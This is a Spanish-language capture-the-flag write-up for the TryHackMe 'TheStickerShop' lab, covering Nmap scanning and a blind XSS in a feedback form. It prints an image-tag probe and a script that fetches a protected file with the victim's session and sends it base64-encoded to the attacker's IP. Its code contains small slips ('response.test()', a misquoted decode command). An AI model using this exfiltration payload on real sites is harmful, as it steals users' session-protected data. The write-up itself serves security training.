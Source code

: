 ```yaml
---
title: "TryHackMe - TheStickerShop"
description: "Vulnerabilidad XSS (Cross-Site Scripting) en el servidor web HTTP 80/TCP lo cual permitió ejecutar código JavaScript y realizar Data Exfiltration"
date: "2024-12-05"
tags:
  - TryHackMe
  - XSS
  - Arbitrary Code Execution
  - Data Exfiltration
  - Linux
  - JavaScript
  - HTTP
---
```


---

## Introduction

En este WriteUp de la máquina TheStickerShop de la plataforma de **[TryHackMe](https://tryhackme.com)** se analizó un servidor con los puertos **22/tcp (SSH)** y **8080/tcp (HTTP)** abiertos. Si bien no se detectaron vulnerabilidades en el servicio SSH, en el servidor web por otro lado se identificó una vulnerabilidad de **XSS (Cross-Site Scripting)** en el formulario de la sección `Feedback`, que permitió ejecutar código JavaScript malicioso en el navegador. Esto se explotó para realizar **data exfiltration** del archivo protegido `flag.txt`.

~~~
Platform: TryHackMe
Level: Easy
OS: Linux
~~~

## Reconnaissance

~~~
Target IP: 10.10.127.143
~~~

>  La tienda local de pegatinas finalmente ha desarrollado su propia página web. No tienen demasiada experiencia con respecto al desarrollo web, por lo que decidieron desarrollar y alojar todo en la misma computadora que usan para navegar por Internet y observar los comentarios de los clientes. ¡Movimiento inteligente!
> 
> Puedes leer la bandera en `http://10.10.127.143:8080/flag.txt`?

![sticker](https://yw4rf.vercel.app/_astro/sticker-0.C5tfA9UU_Z29I4MF.webp)

Comenzamos con el comando **ping**, que utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Este comando envía un mensaje de “echo request” a una dirección IP y espera recibir un mensaje de “echo response”. Este proceso permite verificar si una máquina en la red es accesible y medir la latencia. Además, se puede inferir que es una máquina **Linux** debido al **TTL = 63**

![sticker](https://yw4rf.vercel.app/_astro/sticker-1.p1q49Toi_Blevo.webp)

## Scanning

El paquete fue recibido correctamente por la máquina objetivo. Verificada la conexión, realizamos un escaneo de múltiples etapas con la herramienta **Nmap**. Primero, identificamos los puertos abiertos:

![sticker](https://yw4rf.vercel.app/_astro/sticker-2.DUiLStc7_Z13bRhh.webp)

Se encontraron los puertos abiertos **22/tcp** y **8080/tcp**. A continuación, realizamos un escaneo más detallado utilizando la la flag `-sCV` para obtener más información de los puertos:

![sticker](https://yw4rf.vercel.app/_astro/sticker-3.D7ZqTVeH_qbtKw.webp)

## Enumeration

### 22/tcp SSH

El puerto **22/tcp** ejecuta el servicio `OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)`.

- No se identificaron vulnerabilidades conocidas en esta versión del servicio.
- Este puerto fue descartado como vector de ataque para esta etapa.

### 8080/tcp HTTP

El puerto **8080/tcp** aloja un servidor web identificado como `http-proxy Werkzeug/3.0.1 Python/3.9.10`.

- Al navegar a la URL principal, encontramos un sitio web dedicado a la venta de stickers de gatos.
- La página presenta dos secciones principales: `Home` y `Feedback`.

Al acceder a la sección `Home` no se observaron elementos interactivos relevantes ni indicios de vulnerabilidades explotables.

![sticker](https://yw4rf.vercel.app/_astro/sticker-4.DHV-TwtV_Z1if1LX.webp)

Al acceder a la sección `Feedback` se muestra un formulario que permite a los usuarios enviar comentarios.

![sticker](https://yw4rf.vercel.app/_astro/sticker-5.Di1qMJxl_55Wnt.webp)

Al intentar acceder a la URL `http://10.10.127.143:8080/flag.txt` devolvió un error **401 Unauthorized**, lo que indica que el acceso al archivo está restringido.

![sticker](https://yw4rf.vercel.app/_astro/sticker-6.6RZ-rWan_s8FPy.webp)

En el formulario de la sección `Feedback` exploramos posibles vulnerabilidades. En particular **Cross-Site Scripting (XSS)**, dado que los formularios son un vector común para este tipo de ataque.

En primer lugar, niciamos un servidor HTTP en el puerto **80** de nuestra máquina atacante para recibir posibles solicitudes: `sudo python3 -m http.server 80`

![sticker](https://yw4rf.vercel.app/_astro/sticker-7.l7jfW_-F_2smaz8.webp)

Luego, en el formulario de `Feedback`, enviamos el siguiente payload: `<img src="http://10.21.66.133/test">`. Este código intenta cargar una imagen desde nuestro servidor. Si el navegador del objetivo procesa el payload, el servidor HTTP recibiría una solicitud GET.

![sticker](https://yw4rf.vercel.app/_astro/sticker-8.D7WWDPmP_Z19ziEz.webp)

Al verificar el servidor de escucha, se observó una solicitud entrante, lo que confirma que el payload fue ejecutado exitosamente por el navegador de la víctima.

![sticker](https://yw4rf.vercel.app/_astro/sticker-9.DNVPWwuA_SPMNl.webp)

## Exploitation

Confirmada la vulnerabilidad, utilizamos un payload más avanzado para extraer el contenido del archivo `flag.txt` y enviarlo a nuestro servidor:

~~~JS
<script>
	fetch("/flag.txt", { method: 'GET', mode: 'no-cors', credentials: 'same-origin'})
		.then(response => response.test())
		.then(data => {
			let img = new Image();
			img.src = "http://10.21.66.133:80/" + btoa(data);
		});
</script>
~~~

- `fetch("/flag.txt", {...})`
    - Solicita el archivo `flag.txt` utilizando las credenciales de la sesión activa del navegador.
    - El modo `'no-cors'` evita restricciones relacionadas con políticas de origen cruzado, permitiendo que la solicitud sea procesada por el servidor.
- `.then(response => response.text())`
    - Convierte la respuesta obtenida (el contenido del archivo) en texto legible.
- `btoa(data)`
    - Codifica el texto en Base64 para evitar problemas al enviarlo como parte de una URL.
- `let img = new Image(); img.src = "http://10.21.66.133:80/" + btoa(data);`
    - Crea un objeto de imagen que realiza una solicitud GET a nuestro servidor con el contenido codificado como parte de la URL.
    - Este enfoque garantiza que los datos extraídos sean enviados a nuestro servidor incluso con restricciones de CORS.

![sticker](https://yw4rf.vercel.app/_astro/sticker-10.Bk0mJmKz_1gp1F3.webp)

Al ejecutar el payload, nuestro servidor recibió una solicitud con el contenido del archivo `flag.txt` codificado en Base64.

![sticker](https://yw4rf.vercel.app/_astro/sticker-11.CIJ7DOrV_1c6QiC.webp)

Decodificamos el contenido usando el siguiente comando: `echo "<TEXTO EN BASE64> | base64 --decode"`  

![sticker](https://yw4rf.vercel.app/_astro/sticker-12.YZBRt0rd_ZL0wm1.webp)

ROOTED